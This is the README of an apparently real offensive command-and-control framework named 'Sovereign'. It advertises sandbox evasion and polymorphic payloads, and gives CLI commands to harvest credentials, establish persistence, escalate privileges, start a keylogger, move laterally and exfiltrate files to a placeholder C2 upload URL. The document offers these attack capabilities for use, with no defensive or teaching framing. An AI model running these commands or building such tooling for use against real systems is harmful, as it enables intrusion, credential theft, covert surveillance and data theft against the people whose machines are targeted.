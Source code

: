 # Sovereign Post-Exploitation Framework

This framework provides advanced post-exploitation capabilities with a focus on evasion and automation.

## Features

- **Enhanced Evasion Techniques**: Polymorphic code, sandbox detection, time-based evasion.
- **Advanced Post-Exploitation Modules**: Credential harvesting, persistence, 
-   privilege escalation, reconnaissance, data exfiltration, keylogging, lateral movement.
- **Secure Communication**: Encrypted communication between agent and C2 server.
- **Modular Design**: Easily add new modules and functionalities.
- **Logging and Reporting**: Detailed logging and report generation.

## Usage

### Setting Up the C2 Server

1. **Create a Python virtual environment and activate it**:
    python -m venv venv
    source venv/bin/activate 
    On Windows: venv\Scripts\activate

2. **Install the required dependencies**:
    pip install -r c2_server/requirements.txt

3. **Run the C2 server**:
    python c2_server/c2_server.py

### Using the CLI

The CLI provides various commands to interact with the framework.

#### List all registered agents:
    python cli/cli.py list_agents

#### Send a command to a specific agent:
    python cli/cli.py send_command --agent_id AGENT_ID --command "Your command here"

#### Generate an obfuscated payload for a specific platform:
    python cli/cli.py generate_payload --platform PLATFORM

#### Harvest credentials:
    python cli/cli.py harvest_credentials

#### Establish persistence:
    python cli/cli.py establish_persistence

#### Escalate privileges:
    python cli/cli.py escalate_privileges

#### Gather system information:
    python cli/cli.py gather_system_info

#### Exfiltrate data:
    python cli/cli.py exfiltrate_data --file_path /path/to/file --c2_url https://your-c2-server.com/upload

#### Start keylogger:
    python cli/cli.py start_keylogger --log_file_path /path/to/log_file

#### Move laterally:
    python cli/cli.py move_laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD

### Example Commands

1. **Listing all registered agents**:
    python cli/cli.py list_agents

2. **Sending a command to a specific agent**:
    python cli/cli.py send_command --agent_id 1234-5678-9101-1121 --command "whoami"

3. **Generating a payload for Windows**:
    python cli/cli.py generate_payload --platform windows

4. **Harvesting credentials**:
    python cli/cli.py harvest_credentials

5. **Establishing persistence**:
    python cli/cli.py establish_persistence

6. **Escalating privileges**:
    python cli/cli.py escalate_privileges

7. **Gathering system information**:
    python cli/cli.py gather_system_info

8. **Exfiltrating data**:
    python cli/cli.py exfiltrate_data --file_path /path/to/file --c2_url https://your-c2-server.com/upload

9. **Starting a keylogger**:
    python cli/cli.py start_keylogger --log_file_path /path/to/log_file

10. **Moving laterally**:
    python cli/cli.py move_laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD

### Logging and Reporting

Logs are stored in the c2_server.log file located in the c2_server directory. This file contains detailed information about agent activities and commands executed.

To generate a report from the logged data, run the following command:
    python c2_server/c2_server.py generate_report
This will create a report.txt file containing the logs. The report provides a comprehensive view of all interactions and events logged by the C2 server.

### Adding New Modules

To add new post-exploitation modules, create a new Python file in the c2_server/modules directory and implement the desired functionality. Update the CLI script to include commands for the new module.

### Key Generation and Conversion

#### RSA Key Generation
To generate a pair of RSA keys, you can use the OpenSSL toolkit. Run the following commands to generate a private key and a public key:

1. **Generate a private key:**
   openssl genpkey -algorithm RSA -out private_key.pem -pkeyopt rsa_keygen_bits:2048

2. **Extract the public key from the private key:**
   openssl rsa -pubout -in private_key.pem -out public_key.pem

#### AES Key Generation
To generate an AES key, you can use OpenSSL as well:

1. **Generate a 256-bit AES key:**
   openssl rand -base64 32 > aes_key.txt

#### Conversion to XML
For Sovereign-c2, you may need to convert these keys into XML format for MS Windows. Below are examples of how you might format the keys in XML.

### Secure Management of Keys
Ensure that keys are not stored in the repository. Instead, load them from secure storage at runtime. Below is an example of how you can load keys in a Python script:

import os
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.primitives.asymmetric import rsa

def load_private_key(path):
    with open(path, 'rb') as key_file:
        private_key = serialization.load_pem_private_key(
            key_file.read(),
            password=None,
        )
    return private_key

def load_public_key(path):
    with open(path, 'rb') as key_file:
        public_key = serialization.load_pem_public_key(key_file.read())
    return public_key

def load_aes_key(path):
    import xml.etree.ElementTree as ET
    tree = ET.parse(path)
    root = tree.getroot()
    aes_key = root.find('value').text
    return aes_key

private_key_path = os.getenv('PRIVATE_KEY_PATH')
public_key_path = os.getenv('PUBLIC_KEY_PATH')
aes_key_path = os.getenv('AES_KEY_PATH')

private_key = load_private_key(private_key_path)
public_key = load_public_key(public_key_path)
aes_key = load_aes_key(aes_key_path)

print("Keys loaded successfully.")

### Setting Up Environment Variables
You can set up environment variables to point to the key file paths:

#### Example .env File
PRIVATE_KEY_PATH=/path/to/private_key.pem
PUBLIC_KEY_PATH=/path/to/public_key.pem
AES_KEY_PATH=/path/to/aes_key.xml

### Running the Project
To run the project, follow the instructions below:

1. **Clone the repository:**
   git clone https://github.com/4lph4-01/share.git
   cd Sovereign-C2

2. **Install dependencies:**
   pip install -r requirements.txt

3. **Run the CLI:**
   python cli/cli.py

4. **Set up the environment variables:**
   export $(cat .env | xargs)

### Contribution

Contributions to the Sovereign framework are welcome. Please submit a pull request with a detailed description of your changes.

### By the way, we pwn things.....
